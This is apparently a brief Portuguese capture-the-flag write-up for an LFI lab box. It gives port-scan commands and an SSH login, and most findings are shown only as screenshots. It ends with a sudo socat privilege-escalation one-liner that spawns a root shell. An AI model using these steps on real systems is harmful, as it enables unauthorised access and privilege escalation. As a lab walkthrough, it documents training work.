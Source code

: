 # LFI Inclusion

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.165.110
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c29d19a7-1039-47bf-9814-fd5b684d8f50)

![image](https://github.com/lufffe/Writeups/assets/90646635/35bc71c8-cbc1-4967-b544-de5b20bd6f99)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.165.110
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d8837077-52ec-490d-8d6a-a57fb32b26ff)

* ### Verificando o Http.
![image](https://github.com/lufffe/Writeups/assets/90646635/bce7c911-f7c6-49d2-9af1-056471f8c511)

* ### Identificando um LFI e um usuario e senha.
![image](https://github.com/lufffe/Writeups/assets/90646635/613d82a9-ad5c-44ee-b9e1-00720ea38038)

* ### Acessando via SSH.
```bash
ssh falconfeast@10.10.165.110
```
![image](https://github.com/lufffe/Writeups/assets/90646635/888e8181-1397-4e21-bc32-5d0f144fe680)

* ### Flag User.
```bash
cat user.txt 
```

* ### Vericando como escalar previlégio do usuário.
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e4f667a5-7491-4906-b0db-47e99e23f428)

![image](https://github.com/lufffe/Writeups/assets/90646635/4a533393-3b28-40b9-9925-85b08e2bf319)

* ### Payload.
```bash
sudo /usr/bin/socat stdin exec:/bin/sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5b3502a8-dcfd-4221-b899-0ee6d585abc7)

* ### Flag Root.
```bash
cat /root/root.txt
```
